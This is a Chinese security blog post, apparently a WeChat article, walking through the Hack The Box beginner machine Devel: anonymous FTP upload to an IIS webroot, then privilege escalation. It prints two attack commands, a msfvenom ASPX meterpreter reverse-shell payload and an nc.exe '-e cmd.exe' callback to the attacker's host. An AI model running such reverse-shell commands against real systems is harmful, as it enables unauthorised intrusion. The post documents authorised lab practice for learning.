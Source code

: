 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/0WwxXEeBoAL2r7aV6xSyWg)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **71** 篇文章，本公众号会每日分享攻防渗透技术给大家。

  

靶机地址：https://www.hackthebox.eu/home/machines/profile/3

靶机难度：初级（3.9/10）

靶机发布日期：2017 年 10 月 3 日

靶机描述：

Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/sz_mmbiz_gif/wucQH64lHvpOxUzKZzgrk8rOIbSiaoFokwT3HYichsCpM6ibw80Jw5WmZL4vQs947UAIP2l7bicjV6MJECFp51G6sQ/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/XxrR38Omj5OU35wZiblPezbUu0aFe8g7adFDiar2por60icw9uh1XSFlykibc3jzCByDbG1hhhxNEk13P15Ofiam6Mg/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_gif/z0LeJkZyUa7niaILpQLyj2SXVMFWPGRlKJVgNJ6OUubgicSlhy5yoOrKmqJ2dcAicOTFYG7FUAxFCCbYwz70WcaoQ/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29Gq1nRWV2WveCpVUMQa29XdZaV4wDicSrJMgeZ9CyBm6RVrNPzw2vTag/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.152..... 这台靶机是初学者级别的机器，可以使用公开的漏洞利用来完成...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29dbXt7sSgXd26Z2jtgMH15KA5Htt6uYG3jVEJdhfv1c1l4539IwB2xQ/640?wx_fmt=png)

Nmap 显示了 Microsoft FTP 服务器和 Microsoft IIS 服务器...

可以看到 FTP 允许登录，而且还有人在和我共享同一台靶机操作... 这么多文件...

其他文件不管的情况下，可以看到 FTP 存在 iisstart.htm 和 welcome.png 文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29SKPdqt3psYYzIeiaIStlwwCu8ECEaicBa7zGiaqTM9bfiaBg7J6pnLnibJw/640?wx_fmt=png)

可以看到 web 访问说明，FTP 和 WEB 服务器存储的位置是相同的，那直接在 FTP 上传反弹 shell 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/XxrR38Omj5OU35wZiblPezbUu0aFe8g7adFDiar2por60icw9uh1XSFlykibc3jzCByDbG1hhhxNEk13P15Ofiam6Mg/640?wx_fmt=png)

二、提权

![](https://mmbiz.qpic.cn/mmbiz_gif/z0LeJkZyUa7niaILpQLyj2SXVMFWPGRlKJVgNJ6OUubgicSlhy5yoOrKmqJ2dcAicOTFYG7FUAxFCCbYwz70WcaoQ/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_gif/YnfnlicbPtFCfftiaRIe6t8lnrv9ueWwt2uANWPZAx8iaPnlPia0gncwDAsUiahaOibGg7mB0jYgTwdk6uNt4Bib5dHMw/640?wx_fmt=gif)

方法 1：

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29kMgL8Sd1mwKSsUycvnVuvdibKRUMgVYJCgiaAMS3nVbCgcMYvX3l2ynw/640?wx_fmt=png)

```
msfvenom -p windows/meterpreter/reverse_tcp -f aspx -o dayu.aspx LHOST=10.10.14.23 LPORT=4444
```

利用 msfven.. 生成反弹 shell，上传到 FTP 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29bw5pmx4ic2vSMQ67AeWIZwWGG3qWYePjsHCZcL5qEiazlSUdYpwiciciaiaQ/640?wx_fmt=png)

成功获得了低权 shell...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29ULqHMVB5yCwQqJicQudM89yAWb9LWd1H3hLJHSbh1EJGiacDZ053VB2A/640?wx_fmt=png)

利用 suggester 脚本进行漏扫，发现了这么多漏洞可利用！！随意用就能提权...GO

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29BiaAqS6pdiaBkavoicibUXddynBtiboV3OAShiabjibqDuy8F0ESc4LkOicucw/640?wx_fmt=png)

这里比较无奈，很多人都在进攻这台靶机，弄得我经常 session 失效...

这里被迫重启了靶机，被人搞了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29B5xsfNACn6N1h2lpU5BYUiaEWw2knC2hBN1KvOJXXBlqL3twtPeMaDw/640?wx_fmt=png)

这里直接利用 migrate 提权了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29tOWtTacBbutIgeiciaZqWC7cGDxZgS8l5JqTWIuToqrCaxTJxQuXiaNow/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29WQuZS9qH9laUMFFiaolRaR9ztfCBvgS85Eye6CPQtvo5RPqOzC6wpdA/640?wx_fmt=png)

可以看到成功提权... 获得了 user 和 root 信息...

![](https://mmbiz.qpic.cn/mmbiz_gif/YnfnlicbPtFCfftiaRIe6t8lnrv9ueWwt2uANWPZAx8iaPnlPia0gncwDAsUiahaOibGg7mB0jYgTwdk6uNt4Bib5dHMw/640?wx_fmt=gif)

方法 2：

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29vIoZCHTrt4yVDYZicn1x3BtEUkcPKRvVre9f61fTBzot6xjmfGzicOPw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29xZqptSstPSWyafDicdYS0oQ991XVoqf90LBVZ4oaic4nzqtxne9UNNTA/640?wx_fmt=png)

利用本地 kali 自带的 cmd 注入 shell，成功可在 web 页面进行命令靶机系统命令操作...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29K2Jd7HEvr0iaxuWJSapGBjSJJ4CRtxZtqwPicQ4RGzAqbf9Phq1UEtWw/640?wx_fmt=png)

开启本地 smb...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ296NHeVtag33gzVibXa5zYC7KOLTY4xS5YoZULNLuJRWicZw9WibH4abqug/640?wx_fmt=png)

创建 smb 文件夹，放入 nc.exe...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29v0ib35R6rHD0RiczXicoict1qlxY5h6ZZOc34a6sVmIaMctiaIhUNoiaRskg/640?wx_fmt=png)

```
\\10.10.14.23\dayu\nc.exe -e cmd.exe 10.10.14.23 6666
```

成功获得外壳...

web 页面可以输入命令方式注入，那提权的方式太多了，powershell 等等... 跳过了

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNzPJDkpSxOr3JP4USHCZ29GjD6tVwiaZaNMiaF8LSwKcEhicR4icq4nzA6f1w9Gpm4QnEtc1KCsFicubw/640?wx_fmt=png)

  

下面很简单了，前面 50 几 NO 的章节里，都写了很多种扫描脚本，上传发现漏洞即可... 然后根据 CVE 进行 EXE 下载，上传提权即可...

这里有人在搞我经常 down 机...

我就不操作了...

这台靶机很简单，初学者可以练练手！！！

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/sz_mmbiz_gif/wucQH64lHvpOxUzKZzgrk8rOIbSiaoFokwT3HYichsCpM6ibw80Jw5WmZL4vQs947UAIP2l7bicjV6MJECFp51G6sQ/640?wx_fmt=gif)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)